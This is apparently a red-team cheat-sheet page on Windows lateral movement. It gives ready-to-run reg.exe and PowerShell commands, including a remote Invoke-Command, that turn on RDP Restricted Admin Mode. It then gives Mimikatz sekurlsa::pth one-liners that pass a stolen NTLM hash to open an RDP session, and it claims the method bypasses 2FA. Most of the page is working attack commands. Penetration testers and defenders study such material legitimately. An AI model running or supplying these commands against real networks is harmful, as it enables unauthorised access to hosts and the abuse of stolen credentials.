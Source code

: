 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - offensive-tools
  - T1021-001
  - network-protocols
  - rdp
  - windows
---
```

# Mimikatz

## 01 - Enable Restricted Admin Mode

> [!IMPORTANT] Conditions
> Enable restricted admin mode.
>> [!INFO]
>> This is will bypass 2FA (two factor authentication) if it was configured in enterprise networks. It allows RDP authentication with Pass The Hash methods.

### 1.1 - Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

### 1.2 - PowerShell

```
PS C:\> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force }
```

## 02 - Run RDP Remote Session 

After passing the hash. Create a new process to authenticate RDP. This is much easier to do.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash>

mimikatz # process::start "mstsc.exe /v:<IP> /restrictedadmin"
```

You can do this in one-liner.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"mstsc.exe /v:<IP> /restrictedadmin"
```

---
## References

### LOLRMM

- [LOLRMM: Microsoft RDP](https://lolrmm.io/tools/microsoft_rdp)

- [LOLRMM: Microsoft TSC](https://lolrmm.io/tools/microsoft_tsc)

- [LOLRMM: mstsc](https://lolrmm.io/tools/mstsc)

### ederml

- [ederml: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)